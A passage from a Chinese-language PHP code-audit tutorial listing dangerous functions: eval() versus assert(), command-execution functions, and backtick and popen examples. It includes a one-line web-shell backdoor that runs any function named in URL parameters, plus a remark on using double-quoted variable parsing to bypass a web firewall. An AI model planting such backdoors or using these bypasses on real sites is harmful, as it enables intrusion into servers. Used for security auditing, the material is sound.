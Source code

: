 ![p5](http://drops.javaweb.org/uploads/images/dbd7a5909ea1903cc3a9af9120398c70a005ddf9.jpg)

![p6](http://drops.javaweb.org/uploads/images/d9bbe1b498a0e0da05c1c48ff38f5335afdbf9e3.jpg)

(3)`eval()`和`assert()`：

**当assert()的参数为字符串时 可执行PHP代码**

【区分】：

```
eval(" phpinfo(); ");【√】 eval(" phpinfo() ");【X】
assert(" phpinfo(); ");【√】 assert(" phpinfo() ");【√】

```

#### 2.动态函数执行：

动态函数后门：

```
<?php
$_GET['a']($_GET['b']);
?>

```

![p7](http://drops.javaweb.org/uploads/images/f21373229691352299661f66b60cd28964fa27b9.jpg)

#### 3.命令执行函数：

搜索关键函数：`system()`,`exec()`,`shell_exec()`,`passthru()`,`pcntl_exec()`,`popen()`,`proc_open()`

(1)`popen`和`proc_open()`：

```
<?php 
popen( 'whoami >> /Users/bingdaojueai/Desktop/1.txt', 'r' ); 
?>

```

所在路径就会出现一个1.txt 里面的内容为命令执行后的结果

(2) 反引号命令执行：

*   echo`whoami`; 直接就可以执行命令
    
*   双引号和单引号的区别：
    
    ```
    $a = 1
    echo " $a "    output：1
    echo ' $a '    output：$a
    
    ```

**双引号时，可以直接解析变量，造成代码执行漏洞，过狗绕过。**

